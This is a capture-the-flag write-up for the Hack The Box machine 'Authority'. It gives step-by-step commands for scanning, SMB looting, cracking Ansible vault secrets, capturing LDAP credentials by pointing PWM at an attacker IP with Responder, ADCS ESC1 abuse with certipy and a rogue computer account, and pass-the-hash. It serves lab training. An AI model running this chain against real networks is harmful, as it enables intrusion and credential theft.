

# [Authority](https://app.hackthebox.com/machines/authority)

```bash
nmap -p-  --min-rate 5000 10.10.11.222 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001 10.10.11.222 -Pn
```


Let's look at `SMB` access via `smbmap` command.

```bash
smbmap -H 10.10.11.222 -u 'anonymous'
```


We have access to `Development` share, let's get into this share and grab files as many as possible.

For this, I will use `smbclient`. And donwload all files as below.
```bash
smbclient -N \\\\10.10.11.222\\Development
```

```bash
prompt off
recurse on
mget *
```


I get this files and see their `encrypted` values.


Let's take their encrypted values as seperately and save into files.


Now we need to convert this values into `crackable` format, for this I will use `ansible2john` command.

```bash
ansible2john ldap_admin_password_vault pwm_admin_login_vault pwm_admin_password_vault | tee vault_hashes
```


Let's crack this via `hashcat` command.

```bash
hashcat -m 16900 vault_hashes /usr/share/wordlists/rockyou.txt --user
```


Three of them password values equal to '!@#$%^&*'.

Let's decrypt all of them via `ansible-vault decrypt`.
```bash
cat ldap_admin_password_vault | ansible-vault decrypt
cat pwm_admin_login_vault | ansible-vault decrypt
cat pwm_admin_password_vault | ansible-vault decrypt
```


svc_pwm: pWm_@dm!N_!23

Let's connect into `PWM` via `svc_pwm` user's credentials.


Now, I just go to `Configuration Editor`, replace `LDAP_URLS` via my attacker's ip address by specifying port number.

```bash
ldap://10.10.14.5:389
```


And I will turn on `responder` to see `LDAP` events.

```bash
responder -I tun0
```


I take this credentials.

svc_ldap: lDaP_1n_th3_cle4r!


Let's connect into machine via `evil-winrm`.
```bash
evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```

user.txt


Let's check `ADCS` for `Privilege Escalation` on our target machine via `crackmapexec` command

```bash
crackmapexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M adcs
```


Now, let's find vulnerable certificate templates via `certipy` command.
```bash
certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
```


I find `ESC1` vulnerability, let's abuse this.

```bash
certipy req -username 'svc_ldap' -password 'lDaP_1n_th3_cle4r!' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```

But it doesn't work as because if we look at `Enrollment Rights` , we cannot see `Domain Users`, we see `Domain Computers`, that's why let's add computer.

For this, I will use `addcomputer.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name dr4ks -computer-pass "Dr4ks1234" -dc-ip 10.10.11.222
```


Now, we can request for TGT (`.ccache` file) via `certipy req` command.
```bash
certipy req -username 'dr4ks$' -password 'Dr4ks1234' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```


Let's try to get `administrator` hash via `certipy auth` cmdlet.

```bash
certipy auth -pfx administrator_authority.pfx
```




I got `administrator`'s hash. Let's connect into machine via `Pass-The-Hash` attack by using `evil-winrm` command.

```bash
evil-winrm -i 10.10.11.222 -u administrator -H '6961f422924da90a6928197429eea4ed'
```


root.txt

